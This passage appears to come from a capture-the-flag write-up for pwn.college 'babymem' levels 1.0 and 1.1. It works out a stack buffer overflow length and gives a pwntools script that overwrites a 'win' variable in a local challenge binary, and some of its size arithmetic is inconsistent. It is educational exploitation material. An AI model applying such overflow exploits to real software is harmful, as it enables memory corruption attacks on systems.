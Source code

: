 ```
Buffer:                           Padding byte:           Win variable:

00 00 00 00 00 00 00 00           00                      00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00 00 00 00 00 00
00 00 00
```

* So as soon as the buffer ends, we have a single `NULL` byte, possibly a `padding byte`. And then we have our win variable which is 4 bytes long.
* This means that we need to provide a payload of (115 + 1 + 4) bytes.
* We are going to use pwntools in order to craft our payload.

```python
from pwn import *

padding = b'A' * 116
payload = padding + p64(0x42424242)

p = process('/challenge/babymem_level1.0')
p.recvuntil('size:')
p.sendline('120')

p.recvuntil('bytes)!')
p.send(payload)
p.interactive()
```

* As we can see we have successfully overwritten the win function.



## level 1.1

> Overflow a buffer on the stack to set the right conditions to obtain the flag!

* This time we are not given any information by the program.
* In order to create a payload we need to know three things:
  * [ ] Location of buffer.
  * [ ] Location of win variable.
* You could use [IDA](https://hex-rays.com/ida-pro/) or [Ghidra](https://ghidra-sre.org/), for this task, but we will use good old `gdb`.
